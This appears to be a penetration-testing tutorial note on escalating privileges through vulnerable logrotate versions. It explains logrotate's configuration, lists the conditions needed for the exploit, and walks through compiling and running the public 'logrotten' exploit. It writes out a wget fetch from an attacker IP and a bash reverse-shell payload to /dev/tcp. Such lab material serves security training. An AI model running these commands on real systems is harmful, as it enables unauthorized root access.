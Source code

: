 
`Logrotate` has many features for managing these log files. These include the specification of:

- the `size` of the log file,
- its `age`,
- and the `action` to be taken when one of these factors is reached.

```
man logrotate
logrotate --help
```

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

```
cat /var/lib/logrotate.status  
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```
ls /etc/logrotate.d/
```

```
cat /etc/logrotate.d/dpkg
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```
 
 to compile on remote system:
````bash
wget --recursive --no-parent http://10.10.14.8:8000/logrotten
````

```shell-session
echo 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1' > payload
```

determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
result:
`create`

start a listener,  run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

```shell-session
./logrotten -p ./payload /tmp/tmp.log
```
